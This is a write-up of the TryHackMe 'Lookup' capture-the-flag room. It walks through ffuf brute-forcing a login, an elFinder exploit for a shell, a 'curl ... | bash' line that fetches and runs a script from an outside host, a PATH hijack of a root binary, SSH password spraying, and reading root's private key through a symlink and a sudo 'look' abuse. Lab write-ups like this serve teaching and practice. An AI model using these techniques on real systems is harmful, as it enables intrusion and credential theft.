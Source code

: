```yaml
---
title: Lookup
description: 'Using FFUF to brute force a user name and password and abusing a binary to read files as root'
pubDate: 2024-12-16
category: 'tryhackme'
tags: []
image: 'https://tryhackme-images.s3.amazonaws.com/room-icons/618b3fa52f0acc0061fb0172-1732205261742'
---
```


```bash
ffuf -u http://lookup.thm/login.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d 'username=admin&password=FUZZ' -w /usr/share/wordlists/rockyou.txt -fs 62
...[snip]...
password123             [Status: 200, Size: 74, Words: 10, Lines: 1, Duration: 26ms]
```

```bash
ffuf -u http://lookup.thm/login.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d 'username=FUZZ&password=password123' -w /usr/share/wordlists/rockyou.txt -fs 74
...[snip]...
jose                    [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 28ms]
```

https://www.exploit-db.com/exploits/46481

```bash
python2 elfinder.py http://files.lookup.thm/elFinder/
[*] Uploading the malicious image...
[*] Running the payload...
[+] Pwned! :)
[+] Getting the shell...
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

User on the box and in `credentials.txt`: `think : nopassword`

```bash
curl http://10.8.28.13:8000/moo.sh | bash
```


## USER

Looking at the source code of the `pwm` binary we see that it tries to get the username from the `id` command, but it doesn't use an absolute path.
We can abuse this by creating our own `id` command and echoing whatever we want:

```bash
echo 'uid=1000(think) gid=1000(think) groups=1000(think)' > /tmp/id
chmod +x /tmp/id
export PATH=/tmp:$PATH
cd /tmp
/usr/sbin/pwm
[!] Running 'id' command to extract the username and user ID (UID)
[!] ID: think
jose1006
jose1004
...[snip]...
```

This looks like a list of passwords possibly for the `think` user.
Lets save them to our machine (`passwords.txt`) and try them on the `think` user.

```bash
netexec ssh lookup.thm -u think -p passwords.txt
SSH         10.10.213.121   22     lookup.thm       [*] SSH-2.0-OpenSSH_8.2p1 Ubuntu-4ubuntu0.9
SSH         10.10.213.121   22     lookup.thm       [-] think:jose1006
SSH         10.10.213.121   22     lookup.thm       [-] think:jose1004
...[snip]...
SSH         10.10.213.121   22     lookup.thm       [+] think:josemario.AKA(think)  Linux - Shell access!
```

A valid SSH password for `think` is `josemario.AKA(think)`, lets log in:

```bash
ssh think@lookup.thm # <-- josemario.AKA(think)
```

## ROOT

Since the `pwm` binary gets execute with root permissions we can abuse it again.
But instead of reading the `.passwords` file in the `think` users home directory we create a symlink to the `id_rsa` file of root:

```bash
mv .passwords .passwords_bak
think@lookup:~$ ln -s /root/.ssh/id_rsa .passwords
/usr/sbin/pwm
[!] Running 'id' command to extract the username and user ID (UID)
[!] ID: think
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
...[snip]...
```

Now we can login as root with this key file:

```bash
ssh -i root_id_rsa root@lookup.thm
```

### Alternative way

Checking the sudo permissions we find this we can execute `look` as root:

```bash
sudo -l
[sudo] password for think:
Matching Defaults entries for think on lookup:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User think may run the following commands on lookup:
    (ALL) /usr/bin/look
```

Looking this up on GTFOBins (https://gtfobins.github.io/gtfobins/look/#sudo) we find a way to read files as root, lets read the `id_rsa` file:

```bash
sudo /usr/bin/look '' /root/.ssh/id_rsa
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
...[snip]...
```
